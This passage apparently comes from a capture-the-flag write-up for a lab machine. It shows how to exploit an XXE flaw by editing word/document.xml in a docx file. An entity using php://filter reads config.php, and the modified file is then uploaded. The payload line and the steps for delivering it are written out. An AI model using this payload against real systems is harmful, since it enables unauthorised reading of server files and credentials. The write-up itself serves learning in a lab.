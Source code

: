 ![6](https://user-images.githubusercontent.com/74853138/133894798-0599c48a-3e6e-4f53-b723-4295ff2ca1bc.png)


![7](https://user-images.githubusercontent.com/74853138/133894799-d13306c8-36ce-470f-9f39-5d6d72827d9c.png)

```
after doing some recon and reseach on google, i found that this version is vulnurable to XXE, in uploading docx file.
```
>### XXE Payload 

```
First let's create a new document office word, with docx extention, i create one from google doc.

```
![8](https://user-images.githubusercontent.com/74853138/133894890-a145a70e-850d-4f19-bf1e-909098f1215a.png)


```
first we will unzip the document.docx

❯ unzip cv.docx
Archive:  cv.docx
  inflating: _rels/.rels             
  inflating: docProps/core.xml       
  inflating: docProps/app.xml        
  inflating: word/_rels/document.xml.rels  
  inflating: word/document.xml       
  inflating: word/styles.xml         
  inflating: word/theme/theme1.xml   
  inflating: word/fontTable.xml      
  inflating: word/settings.xml       
  inflating: [Content_Types].xml     
root@ubuntu ~/THM/empline                                                                                                                                              17:03:36
❯ 

and let's amend the word/document.xml

and add this line

<!DOCTYPE test [<!ENTITY test SYSTEM 'php://filter/convert.base64-encode/resource=config.php'>]>

```

![9](https://user-images.githubusercontent.com/74853138/133895115-a1c0892a-08a5-411d-9d02-dc0fd521156e.png)


```
and add '&test;' as paragraph
zip this two files together 

and update this file 
```
![10](https://user-images.githubusercontent.com/74853138/133895186-5c2683dd-d97f-42e2-ac14-ec197775e894.png)
